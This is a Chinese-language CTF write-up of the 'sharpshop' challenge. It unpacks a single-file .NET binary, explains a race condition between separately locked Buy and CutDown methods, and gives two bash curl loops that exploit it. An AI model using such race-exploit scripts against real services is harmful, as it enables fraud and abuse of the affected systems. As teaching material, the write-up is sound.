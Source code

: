 # Spirit CTF 2023 题解 - sharpshop

记忆源点是封面欺诈，这题和Acreae真的没有关系（（（

```
/
```

![](<./img/Pasted image 20230514190039.png>)

砍价是减去`(FlagPrice - Wallet) / 2`，砍不完的（pdd：？）

通过Web上帝冥冥之中的指引，我们访问了奇怪的东西

```
/robots.txt
```

> User-agent: *
> Disallow: /sharpshop.tar

！是大自然的馈赠~

```
/sharpshop.tar
```

```shell
$ file app
app: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, BuildID[sha1]=151285fb3b9f0e8bc28b37aa06d105dfbb530c2d, stripped
```

都2302年了怎么还有人web服务藏着掖着的啊（恼

由标题"sharpshop"应该能推测出是C#写的，通常dotnet平台的程序编译成MSIL，由CLR实时翻译成native code执行，但这里给的是一个单文件，链接到musl libc

于是推测是发布时开启了PublishSingleFile和SelfContained开关，把IL和CLR暴力打包到一个可执行文件里，运行时解压到临时目录执行

~~可以使用[`sfextract`](https://github.com/Droppers/SingleFileExtractor)提取这些内容。~~听说新版本`ILSpy`也可以直接查看了qwq

```shell
$ sfextract app -o app.ex
Bundle version: 6.0
Extracted 171 files to "app.ex"
```

来看下购买部分的核心逻辑

```csharp
// Shopping
using System.Runtime.CompilerServices;
using System.Threading;

internal class Shopping
{
	private long _FlagPrice;

	private long _Wallet;

	private int _IsCutting;

	private int _IsBuying;

	public long FlagPrice => _FlagPrice;

	public long Wallet => _Wallet;

	public bool HasFlag { get; private set; }

	public void CutDown()
	{
		while (Interlocked.Exchange(ref _IsCutting, 1) != 0)
		{
		}
		_FlagPrice -= (_FlagPrice - _Wallet) / 2;
		Interlocked.Exchange(ref _IsCutting, 0);
	}

	public bool Buy(out string message)
	{
		while (Interlocked.Exchange(ref _IsBuying, 1) != 0)
		{
		}
		long flagPrice = _FlagPrice;
		_Wallet -= flagPrice;
		DefaultInterpolatedStringHandler defaultInterpolatedStringHandler = new DefaultInterpolatedStringHandler(6, 1);
		defaultInterpolatedStringHandler.AppendLiteral("购买后余额：");
		defaultInterpolatedStringHandler.AppendFormatted(_Wallet);
		message = defaultInterpolatedStringHandler.ToStringAndClear();
		bool result;
		if (_Wallet < 0)
		{
			_Wallet += flagPrice;
			message += "，余额不足～";
			result = false;
		}
		else
		{
			message += "，购买成功～";
			HasFlag = true;
			result = true;
		}
		Interlocked.Exchange(ref _IsBuying, 0);
		return result;
	}

	public Shopping()
	{
		_IsCutting = 0;
		_IsBuying = 0;
		_Wallet = 100L;
		_FlagPrice = long.MaxValue;
		HasFlag = false;
	}
}
```

初学多线程的CrackTC用了两个互斥锁 ***分别*** 锁住了`Buy`和`CutDown`的执行流，并这样说道

> 在我看来，这个程序是牢不可破的~~，所以我压根没有准备记忆源点啊哈哈哈哈哈~~

但是由于`Buy`和`CutDown`没有做到互斥，且都访问了`_FlagPrice`和`_Wallet`，竞态条件的可能性依然存在

假设某个时刻`_FlagPrice`为101，`_Wallet`为100，下面的路径将导致`_FlagPrice`变成50，`_Wallet`还是100，于是就买得起啦～

```
+---------------------------------------+-------------------+----------------------------------------+
|                                       |                   |                                        |
|                                       |                   |   _Flag -= (_FlagPrice - _Wallet) / 2  |
|                                       |                   |                                        |
+---------------------------------------+-------------------+----------------------------------------+
|                                       |                   |                                        |
|                                       |                   |                                        |
|                                       |         *         |                   *                    |
|                                       |         |         |                                        |
+---------------------------------------+---------+---------+----------------------------------------+
|                                       |         |         |                                        |
|                                       |         v         |                                        |
|     long flagPrice = _FlagPrice       |         *         |                   *                    |
|                                       |         |         |                                        |
+---------------------------------------+---------+---------+----------------------------------------+
|                                       |         v         |                                        |
|     _Wallet -= _FlagPrice             |         *---------+------------------>*                    |
|                                       |                   |                   |                    |
+---------------------------------------+-------------------+-------------------+--------------------+
|                                       |                   |                   v                    |
| if (_Wallet < 0) _Wallet += flagPrice |         *         |                   *                    |
|                                       |                   |                                        |
+---------------------------------------+-------------------+----------------------------------------+
```

所以写俩脚本分别发送两种请求就行了

```shell
#!/bin/bash

url=$1
cookie=$2
while true
do
    curl -b $cookie "$url/?action=buy"
done
```

```shell
#!/bin/bash

url=$1
cookie=$2
while true
do
    curl -b $cookie "$url/?action=cutDown"
done
```
